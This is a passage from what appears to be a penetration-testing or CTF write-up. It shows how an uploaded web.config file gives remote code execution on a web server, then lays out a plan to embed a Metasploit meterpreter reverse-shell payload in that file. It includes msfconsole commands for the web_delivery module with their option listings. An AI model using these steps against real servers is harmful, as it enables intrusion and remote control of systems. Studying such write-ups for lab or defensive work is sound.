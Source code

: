 ![File uploaded]({{ "/assets/2018-10-28/uploaded.png" | absolute_url }} "File uploaded")

Our file uploaded successfully so it means this file extension is allowed. We will suppose that files are not renamed during the upload so we will try to access it at **/uploadedfiles/web.config**.

![RCE vulnerability test]({{ "/assets/2018-10-28/vulnerable.png" | absolute_url }} "RCE vulnerability test")

It works! :fireworks: Now we should be able to execute commands on the web server. 

### Meterpreter Shell

A reverse shell is generally what we are looking for when it comes to RCE. This time we will do better!

Metasploit can generate specific payloads but also setup a listener that will wait for the return of our reverse shell.
But why would we do that? Because it offers the possibility to execute metasploit exploit modules directly inside our remote session.
We can also juggle between several sessions, which can be pretty useful in some cases.

Here is the list of steps we will follow:
1. Generate our **meterpreter shell payload**.
2. Incorporate the payload into the **web.config** file.
3. Upload the web.config file.
4. Access the uploaded file in order to trigger the payload.
5. See what happens...

#### Meterpreter Shell Payload

First, we have to run Metasploit console with `msfconsole`. Then, we will use the **web delivery script** exploit module. A module is loaded with the keyword *"use"*, followed by the path of the module.

```bash
msf > use exploit/multi/script/web_delivery 
msf exploit(multi/script/web_delivery) >
```

Then, you can type *"options"* to list all available parameters for this module:

```bash
msf exploit(multi/script/web_delivery) > options

Module options (exploit/multi/script/web_delivery):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Payload options (python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
```